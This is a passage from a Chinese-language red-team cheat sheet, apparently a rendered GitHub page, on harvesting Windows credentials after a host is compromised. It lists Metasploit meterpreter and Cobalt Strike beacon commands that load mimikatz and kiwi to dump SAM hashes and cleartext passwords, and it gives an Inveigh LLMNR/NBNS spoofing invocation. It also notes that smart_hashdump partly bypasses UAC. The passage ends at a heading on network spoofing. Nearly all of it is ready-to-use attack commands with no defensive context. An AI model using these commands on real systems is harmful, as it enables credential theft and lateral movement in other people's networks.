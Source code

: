 在`metasploit`中利用`mimikatz`获取hash

```bash
meterpreter > load mimikatz
meterpreter > mimikatz_command -f samdump::hashes
```

`metasploit`提供的抓取hash的一些模块：

```bash
meterpreter > run post/windows/gather/hashdump
meterpreter > run post/windows/gather/smart_hashdump
```

`smart_hashdump`模块会把dump的hash文件保存在`/root/.msf4/loot`目录下，并且该模块一定程度上能够绕过`windows UAC`。

顺便介绍一些能够直接获取明文密码的模块命令：

```bash
meterpreter > load mimikatz
meterpreter > wdigest （kerberos）

meterpreter > mimikatz_command -f samdump::hashes
meterpreter > mimikatz_command -f sekurlsa::searchPasswords 

meterpreter>load kiwi
meterpreter> creds_wdigest
```

### Cobaltstrike

```
beacon> getuid
beacon> powershell-import /root/powershell/Get-PassHashes.ps1
beacon> powershell Get-PassHashes
```



 读取hash，需要administer权限(右击目标主机--`Access`-`hashdump`)

```bash
beacon> wdigest //读取信息
beacon> hashdump  
```

运行mimikatz(右击目标主机--`Access`- `RUN mimikatz`)

```bash
beacon> logonpasswords 
```

右击受害者主机--access-hashdump

```bash
beacon> powershell-import /root/powershell/Inveigh/Inveigh.ps1
beacon> powershell Invoke-Inveigh -ConsoleOutput Y -FileOutput Y -NBNS Y -mDNS Y -LLMNR Y -HTTP Y -PROXY Y
```

## 2.网络欺骗
